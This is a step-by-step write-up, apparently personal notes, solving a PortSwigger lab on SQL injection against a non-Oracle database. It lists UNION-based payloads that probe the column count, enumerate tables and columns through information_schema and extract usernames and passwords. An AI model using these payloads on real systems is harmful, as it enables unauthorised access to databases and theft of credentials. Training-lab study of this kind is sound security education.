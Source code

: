# [SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

Step - 1
---
```
'
```
Error because Single Quotes

Step - 2
---
```
'--
```
No MySQL

Step - 3
---
```
' ORDER BY 3--
```
Error because 2 Column

Step - 4
---
```
' UNION SELECT 'a','a'--
```
2 String Column

Step - 5
---
```
' UNION SELECT 'a',table_name FROM information_schema.tables--
```
1. table_name - `users_losije`

Step - 6
---
```
' UNION SELECT 'a',column_name FROM information_schema.columns WHERE table_name='users_losije'--
```
1. column_name - `username_nlazuv` and `password_xcildc`

Step - 7
---
```
' UNION SELECT 'a',username_nlazuv || '~' || password_xcildc FROM users_losije--
```
